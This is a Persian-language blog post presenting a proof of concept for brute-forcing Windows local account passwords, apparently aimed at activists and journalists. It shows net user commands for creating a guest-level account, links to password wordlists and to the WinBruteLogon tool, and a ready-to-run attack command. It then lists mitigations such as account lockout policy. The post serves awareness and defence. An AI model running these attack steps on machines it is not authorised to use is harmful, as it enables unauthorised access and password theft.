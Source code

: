 +++
title = "امنیت سایبری ۱۰۱ ویژه فعالان حقوق بشر، فعالان مدنی، فعالان سیاسی، روزنامه نگاران و براندازان: اثبات آسیب‌پذیری تازه کشف‌شده در سیستم‌عامل ویندوز مایکروسافت که به هر فردی با دانش ابتدایی کامپیوتر اجازه بدست‌آوردن و هک رمزهای عبور از ویندوز XP تا ویندوز ۱۰ را می‌دهد!"
slug = "cybersecurity-101-microsoft-windows-brute-force-login-vulnerability-proof-concept-mitigation"
date = 2020-05-18T19:10:00+02:00
tags = [ "Barandazan", "Cybersecurity", "Iran", "Islamic Republic Of Iran", "Microsoft", "Microsoft Windows", "Proof of Concept", "Security", "Threat Mitigation", "Vulnerability" ]
toc = true
+++

{{< youtube wGjnjN1oTuU >}}

<br />

در ادامه این مطلب با اثبات آسیب‌پذیری تازه کشف‌شده در سیستم‌عامل ویندوز مایکروسافت که به هر فردی با دانش ابتدایی کامپیوتر اجازه بدست‌آوردن و هک رمزهای عبور از ویندوز XP تا ویندوز ۱۰ را می‌دهد، با خطرات این آسیب‌پذیری آشنا خواهیم شد.

لازم به ذکر است که مایکروسافت تا این لحظه واکنشی نسبت به این آسیب‌پذیری و یا رفع آن نشان نداده است. اما در ادامه راهکارهایی را جهت کاهش سطح آسیب‌پذیری تا رفع آن توسط مایکروسافت آموزش خواهیم داد.

جزییات در ادامه مطلب.

<!--more-->

## دستور نمایش تمامی کاربرهای فعلی سیستم

{{< codeblock lang="cmd" >}}
> net user
{{< /codeblock >}}

## دستور تغییر رمز عبور برای یک کاربر

{{< codeblock lang="cmd" >}}
> net user "Mamadou Babaei" "matrix"
{{< /codeblock >}}

__نکته ۱__: استفاده از علامت <code>"</code> اختیاری است و تنها در صورت وجود کاراکتر فاصله در نام کاربری یا رمز عبور الزامی است.

__نکته ۲__: جهت اجرای موفقیت آمیز این دستور بایستی <code>cmd.exe</code> یا Windows Command Prompt با سطح دسترسی ادمین با استفاده از گزینه Run as administrator اجرا شود.

## دستور فعال نمودن کاربر مهمان برای ویندوز‌های پیش از ویندوز ۱۰

{{< codeblock lang="cmd" >}}
> net user guest /active:yes
{{< /codeblock >}}

__نکته__: جهت اجرای موفقیت آمیز این دستور لازم است <code>cmd.exe</code> یا Windows Command Prompt با سطح دسترسی ادمین با استفاده از گزینه Run as administrator اجرا شود.

## دستور فعال نمودن کاربر مهمان برای ویندوز‌ ۱۰

روش فوق جهت فعال نمودن کاربر مهمان داخلی ویندوز تا ویندوز ۱۰ نسخه <code>۱۰۱۵۹</code> کار می‌نموده است که پس از آن کاملا توسط مایکروسافت غیرفعال شده است. لذا با دستورات ذیل می‌توانید یک کاربر دیگر با سطح دسترسی مشابه Guest با نام Visitor را ایجاد نمایید:

{{< codeblock lang="cmd" >}}
> net user Visitor /add /active:yes
> net user Visitor *
> net localgroup users Visitor /delete
> net localgroup guests Visitor /add
{{< /codeblock >}}

## دریافت یک فایل دیکشنری پسورد

می‌توانید [تعدادی فایل دیکشنری پسورد نمونه را از این آدرس](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) بدست بیاورید.

## دریافت ابزار موردنیاز

[برای ویندوز‌های ۶۴ بیتی از این آدرس](https://github.com/DarkCoderSc/win-brute-logon/tree/master/Win64/Release) فایل 
[WinBruteLogon.exe](https://raw.githubusercontent.com/DarkCoderSc/win-brute-logon/master/Win64/Release/WinBruteLogon.exe) و [برای ویندوزهای ۳۲ بیتی از این آدرس](https://github.com/DarkCoderSc/win-brute-logon/tree/master/Win32/Release) فایل [WinBruteLogon.exe](https://raw.githubusercontent.com/DarkCoderSc/win-brute-logon/master/Win32/Release/WinBruteLogon.exe) را بدست بیاورید.

## آغاز حمله

{{< codeblock lang="cmd" >}}
> WinBruteLogon.exe -v -u "Mamadou Babaei" -w "10-million-password-list-top-1000000.txt"
{{< /codeblock >}}

__نکته ۱__: استفاده از علامت <code>"</code> اختیاری است و تنها در صورت وجود کاراکتر فاصله در نام کاربری و یا نام فایل دیکشنری الزامی است.

__نکته ۲__: جهت اجرای این دستور نیاز به سطح دسترسی ویژه ادمین نمی‌باشد.

__نکته ۳__: اجرای این دستور بسته به قدرت پردازنده کامپیوتر و تعداد هسته‌های آن و همچنین بزرگی فایل دیکشنری ممکن است از چند ثانیه تا چندین ساعت طول بکشد.

__نکته ۴__: استخراج موفقیت‌آمیز رمز عبور منوط به وجود آن در فایل یا فایل‌های دیکشنری مورد استفاده می‌باشد.

__نکته ۵__: به طور پیش فرض، نام دامنه، مقدار تعیین شده توسط متغیر محیطی <code>%USERDOMAIN%</code> می‌باشد. امکان تعیین یک نام دامنه دلخواه با پارامتر <code>-d</code> وجود دارد.

## کاهش خطر


* در صورت وجود حساب‌های مهمان یا غیرضروری در سیستم آن‌ها را غیرفعال یا حذف نمایید!

{{< codeblock lang="cmd" title="غیرفعال نمودن کاربر مهمان" >}}
> net users Guest /active:no
{{< /codeblock >}}

__هشدار__: دستور ذیل غیرقابل بازگشت می‌باشد و منجر به حذف کاربر و اطلاعاتش از سیستم می‌شود!

{{< codeblock lang="cmd" title="حذف اکانت‌های غیرضروری" >}}
> net users "SomeInactiveUser" /delete
{{< /codeblock >}}

* [وایت‌لیست نمودن نرم‌افزارها](https://web.archive.org/web/20200517181054/https://www.andreafortuna.org/2018/07/11/application-whitelisting-on-critical-windows-systems-useful-or-not/)

* دستور‌العمل‌ها و بهترین روش‌های مربوط به ایجاد یک رمز عبور پیچیده و قوی را دنبال نمایید. آنرا از طریق Group Policy برای تمامی کاربران سیستم یا دامین اعمال نمایید.

* سیاست قفل نمودن اکانت در صورت چندین سعی مکرر ناموفق را فعال نمایید. این قابلیت بصورت پیش‌فرض غیر فعال می‌باشد. لذا با اجرا نمودن دستور <code>secpol.msc</code> به عنوان یکی از کاربران ادمین سیستم و طی مسیر <code>Account Policies > Account Lockout Policy</code> مقدار گزینه <code>Account lockout threshold</code> را با مقدار دلخواه تنظیم نمایید (بین <code>۱</code> تا <code>۹۹۹</code> بار تلاش؛ مقدار پیش‌فرض <code>۰</code> یعنی بی‌نهایت می‌باشد). مثلا اگر مقدار آن را <code>۸</code> تعیین نمایید، پس از <code>۸</code> بار سعی پشت سر هم غیرموفقیت‌آمیز در ورود یا حدس زدن رمز عبور، اکانت بصورت خودکار توسط ویندوز قفل می‌شود. با تنظیم گزینه <code>Account lockout duration</code> با مقدار دلخواه مدت زمان قفل بودن اکانت را تعیین می‌نمایید (بین <code>۱</code> تا <code>۹۹,۹۹۹</code> دقیقه؛ مقدار <code>۰</code> باعث قفل شدن دائمی اکانت می‌شود و تا زمانیکه یک از مدیران سیستم صراحتا کاربر را از حالت قفل در نیاورد، کاربر در آن وضعیت باقی خواهد ماند). جهت کسب اطلاعات بیشتر و مطالعه سایر گزینه‌ها مانند <code>Reset account lockout counter after</code> و جزییات آن‌ها به [قسمت Account Lockout Policy در مستندات ویندوز](https://web.archive.org/web/20200517184408/https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/account-lockout-policy) مراجعه نمایید.

* سیاست قفل نمودن اکانت در مورد کاربر ادمین اصلی سیستم یا همان <code>Administrator</code> کار نمی‌کند! چنانچه این کاربر فعال می‌باشد و امکان غیرفعال نمودن آنرا ندارید، بهترین خط مشی، تنظیم یک رمز عبور بسیار پیچیده برای این کاربر می‌باشد.
